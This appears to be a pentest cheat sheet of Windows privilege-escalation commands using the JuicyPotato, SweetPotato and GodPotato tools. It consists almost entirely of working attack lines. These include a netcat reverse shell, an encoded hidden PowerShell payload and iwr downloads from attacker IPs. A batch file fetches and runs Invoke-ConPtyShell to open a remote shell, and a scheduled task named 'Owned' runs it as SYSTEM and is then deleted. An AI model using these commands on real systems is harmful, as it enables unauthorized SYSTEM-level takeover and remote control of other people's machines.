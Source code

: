 # JuicyPotato
```
.\JuicyPotatoNG.exe -t * -p C:\Services\nc.exe -a "192.168.45.236 9445 -e C:\Windows\System32\cmd.exe"*
```

# SweetPotato
```
.\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc BASE64Payload"
```

# GodPotato
## Put God Potato on target

```
iwr http://192.168.45.193/GodPotato-NET4.exe -Outfile God.exe
```

## Test it

```
.\God.exe -cmd "cmd /c whoami"
```

## Upload Batch File to target

```
echo 'powershell.exe -ep bypass -command "iex(iwr http://172.16.1.100:50080/ConPtyShell/Invoke-ConPtyShell.ps1 -UseBasicParsing);Invoke-ConPtyShell 172.16.1.100 50001"' > schedshell.bat
```

```
iwr http://192.168.45.164/schedshell.bat -OutFile C:\Windows\temp\schedshell.bat -UseBasicParsing
```

## Create a scheduled task

```
.\God.exe -cmd 'schtasks /create /sc Once /TN Owned /ST 00:00 /ru SYSTEM /TR "C:\Windows\temp\schedshell.bat"'
```

## Run the task

```
.\God.exe -cmd 'schtasks /run /TN "Owned"'
```

## Clean up

```
.\God.exe -cmd 'schtasks /delete /TN "Owned" /F'
```